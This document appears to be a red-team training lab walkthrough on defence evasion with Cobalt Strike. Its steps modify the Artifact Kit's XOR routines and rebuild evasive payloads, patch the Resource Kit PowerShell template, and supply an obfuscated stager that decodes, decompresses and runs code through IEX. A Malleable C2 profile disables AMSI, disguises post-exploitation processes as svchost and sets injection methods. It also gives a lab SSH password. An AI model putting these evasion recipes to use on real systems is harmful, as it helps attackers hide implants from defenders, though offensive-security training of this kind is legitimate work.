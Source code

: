 
### Defence Evasion Lab

#### Artifacts
- Launch Visual Studio Code.
    
-  Go to **File > Open Folder** and select _C:\Tools\cobaltstrike\arsenal-kit\kits\artifact_.
    
-  Navigate to _src-common_ and open _patch.c_.
    
-  Scroll to line ~45 and modify the _for_ loop. This is for the svc exe payloads.
    
    cTypeCopy
    
    `x = length; while(x--) {   *((char *)buffer + x) = *((char *)buffer + x) ^ key[x % 8]; }`
    
-  Scroll to line ~116 and modify the other _for_ loop. This is for the normal exe payloads.
    
    cTypeCopy
    
    `int x = length; while(x--) {   *((char *)ptr + x) = *((char *)buffer + x) ^ key[x % 8]; }`
    
-  Save the changes (**File > Save**) and close the folder (**File > Close Folder**).
    
-  On the Windows taskbar, right-click on the Terminal icon launch Ubuntu.
    
-  Change the working directory.
    
    1. cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/artifact
-  Run **build.sh** to build the new artifacts.
    
    1. ./build.sh mailslot VirtualAlloc 351363 0 false false none /mnt/c/Tools/cobaltstrike/custom-artifacts
-  Open the Cobalt Strike client and load **artifact.cna** from _C:\Tools\cobaltstrike\custom-artifacts\mailslot_.

### Resources

1.  If not already open from the previous task, launch Ubuntu from the Windows Terminal.
    
2.  Change the working directory.
    
    1. cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/resource
3.  Run **build.sh** to build new resources.
    
    1. ./build.sh /mnt/c/Tools/cobaltstrike/custom-resources
4.  If not already open from the previous task, launch Visual Studio Code.
    
5.  Go to **File > Open Folder** and select _C:\Tools\cobaltstrike\custom-resources_.
    
6.  Select **template.x64.ps1**.
    
7.  Rename the _func_get_proc_address_ function on line 3 to _get_proc_address_.
    
8.  Rename the _func_get_delegate_type_ function on line 10 to _get_delegate_type_.
    
    > Use **Edit > Replace**.
    
9.  Scroll to line 32 and replace it with:
    
    powershellTypeCopy
    
    `$var_wpm = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((get_proc_address kernel32.dll WriteProcessMemory), (get_delegate_type @([IntPtr], [IntPtr], [Byte[]], [UInt32], [IntPtr]) ([Bool]))) $ok = $var_wpm.Invoke([IntPtr]::New(-1), $var_buffer, $v_code, $v_code.Count, [IntPtr]::Zero)`
    
10.  Save the changes (**File > Save**).
    
11.  Select **compress.ps1**.
    
12.  Use Invoke-Obfuscation to create a unique obfuscated version, or try the following:
    
    powershellTypeCopy
    
    ``SET-itEm  VarIABLe:WyizE ([tyPe]('conVE'+'Rt') ) ;  seT-variAbLe  0eXs  (  [tYpe]('iO.'+'COmp'+'Re'+'S'+'SiON.C'+'oM'+'P'+'ResSIonM'+'oDE')) ; ${s}=nEW-o`Bj`eCt IO.`MemO`Ry`St`REAM(, (VAriABle wYIze -val  )::"FR`omB`AsE64s`TriNG"("%%DATA%%"));i`EX (ne`w-`o`BJECT i`o.sTr`EAmRe`ADEr(NEw-`O`BJe`CT IO.CO`mPrESSi`oN.`gzI`pS`Tream(${s}, ( vAriable  0ExS).vALUE::"Dec`om`Press")))."RE`AdT`OEnd"();``
    
13.  Save the changes (**File > Save**).
    
14.  Open the Cobalt Strike client and load **resources.cna** from _C:\Tools\cobaltstrike\custom-resources_.

### Malleable C2

1.  Open a new PowerShell window in Terminal.
    
2.  SSH into the team server VM.
    
    1. ssh attacker@10.0.0.5
    
    > The password is Passw0rd!.
    
3.  Move into the profiles directory.
    
    1. cd /opt/cobaltstrike/profiles
4.  Open **default.profile** in a text editor (e.g. vim or nano).
    
5.  Add the following stage block:
    
    c2profileTypeCopy
    
    `stage {    set userwx "false";    set module_x64 "Hydrogen.dll";  # use a different module if you like    set copy_pe_header "false"; }`
    
6.  Add the following post-ex block:
    
    c2profileTypeCopy
    
    `post-ex {   set amsi_disable "true";   set spawnto_x64 "%windir%\\sysnative\\svchost.exe";   set obfuscate "true";   set cleanup "true";    transform-x64 {       strrep "ReflectiveLoader" "NetlogonMain";       strrepex "ExecuteAssembly" "Invoke_3 on EntryPoint failed." "Assembly threw an exception";       strrepex "PowerPick" "PowerShellRunner" "PowerShellEngine";        # add any other transforms that you want   } }`
    
7.  Add the following process-inject block:
    
    c2profileTypeCopy
    
    `process-inject {   execute {       NtQueueApcThread-s;       NtQueueApcThread;       SetThreadContext;       RtlCreateUserThread;       CreateThread;   } }`
    
8.  Save the changes.
    
9.  Restart the team server.
    
    1. sudo /usr/bin/docker restart cobaltstrike-cs-1
    
    > If the container fails to restart properly use sudo /usr/bin/docker logs cobaltstrike-cs-1 to see the profile errors.